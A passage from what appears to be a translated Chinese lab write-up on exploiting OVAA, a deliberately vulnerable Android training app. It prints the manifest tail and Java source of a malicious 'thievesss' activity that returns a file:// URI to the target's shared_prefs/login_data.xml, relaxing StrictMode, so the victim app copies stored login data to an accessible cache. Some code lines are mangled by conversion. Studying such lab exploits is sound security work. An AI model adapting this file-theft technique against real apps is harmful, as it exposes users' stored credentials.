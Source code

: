 ```
                <action android:name="android.intent.action.MAIN" /><category android:name="android.intent.category.LAUNCHER" />
            </intent-filter>
        </activity>
    </application></manifest>
```

**主活动类，**

```
package com.evil.evlfiletheftpartone;import androidx.appcompat.app.AppCompatActivity;import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;public class MainActivity extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent cont = new Intent(getApplicationContext(),thievesss.class);
        startActivity(cont);
    }
}
```

**偷窃课，**

```
package com.evil.evlfiletheftpartone;import androidx.appcompat.app.AppCompatActivity;import android.content.Intent;
import android.net.Uri;
import android.os.Bundle;
import android.os.StrictMode;public class thievesss extends AppCompatActivity {[@Override](http://twitter.com/Override)
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_thievesss);
        StrictMode.setVmPolicy(StrictMode.VmPolicy.LAX);
        Intent stealing = new Intent();
        stealing.setData(Uri.parse("file:///data/data/oversecured.ovaa/shared_prefs/login_data.xml"));
        setResult(RESULT_OK,stealing);
        finish();
    }
}
```

**请注意，我们将传递解析应用程序的**共享首选项**中的 login_data.xml 的 Uri 数据，并使用 **StrictMode.setVmPolicy** 来防止出现 [**文件方案异常**](https://stackoverflow.com/questions/38200282/android-os-fileuriexposedexception-file-storage-emulated-0-test-txt-exposed) 。**

**我们可能会运行两个应用程序，启动第一个应用程序的按钮，我们将不得不选择恶意应用程序。之后，我们可以再次签出**外部缓存目录**文件，我们将看到我们的 XML 登录数据。**

**![](img/7e4e6cf50657864cd975381437a4f8e4.png)**
